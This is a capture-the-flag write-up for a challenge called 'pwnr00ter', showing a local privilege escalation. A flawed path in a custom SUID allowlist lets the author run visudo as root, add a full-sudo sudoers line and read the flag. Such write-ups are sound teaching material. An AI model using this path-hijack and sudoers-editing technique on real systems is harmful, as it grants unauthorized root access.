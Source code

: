 # pwnr00ter

## Information:

- Compte
- ssh://$USER@REDACTED:REDACTED

The description tell us that this binary is what we need to interact with `pwnr00ter`
Lets chek it out
```bash
device@pwnr00ter-7eddae50:/tmp$ ls -lah /usr/bin/pwnr00ter 
-rwsr-sr-x 1 root root 16K Oct 23 16:36 /usr/bin/pwnr00ter
#  ^------------- Oh! SUID bit!
```

Lets run strings as usual
```bash
strings /usr/bin/pwnr00ter 
bash: strings: command not found
```
Humm.. cat?
```
[READCTED garbage]
One must specify one permitted binary, no arguments allowed![+] Checking if [%s] is allowed to run with privileges
/usr/bin/whoami/usr/bin/date/usr/bin/uname/bin/bin/ping/usr/bin/hostname[-] [%s] not in allowed list, access denied!
[+] Access granted! Running [%s] as root
[REDACTED garbage]
```

Ok so the SUID bit was intentional and i may run those binary without argument
- /usr/bin/whoami
- /usr/bin/date
- /usr/bin/uname
- /bin/bin/ping
- /usr/bin/hostname

Lets try them all
``` bash
pwnr00ter ping
[+] pwnr00ter application starting ...

[+] Checking if [ping] is allowed to run with privileges
[+] Access granted! Running [ping] as root
: usage error: Destination address required
```
I did many try, to finally realize wait... `/bin/bin/ping` ? 
What the `REDACTED` is this path?! 
```bash
/bin$ mkdir bin
mkdir: cannot create directory ‘bin’: Permission denied
```
That would have been too easy if I could write in `/bin`
But how did it found `ping` if the path is wrong? This tell me that there might be a problem with the path of the binaries it launch

```bash
cp /usr/sbin/visudo /tmp/bin/bin/ping
pwnr00ter ping
```
A lots of error but it finally open the vi editor
Lets grant ourselve a bit more privileges
```
device  ALL=(ALL:ALL) ALL
```
Suivis de 
```bash
sudo -i
```

```bash
root@pwnr00ter-7eddae50:~# ls
flag.txt
root@pwnr00ter-7eddae50:~# cat flag.txt 
FINCTF{Thou shall not roll you own sudo}
```

Thank to @`r3my` that made me realise I did a rookie mistake by forgetting to add `!` a `:wq` while saving the sudo role.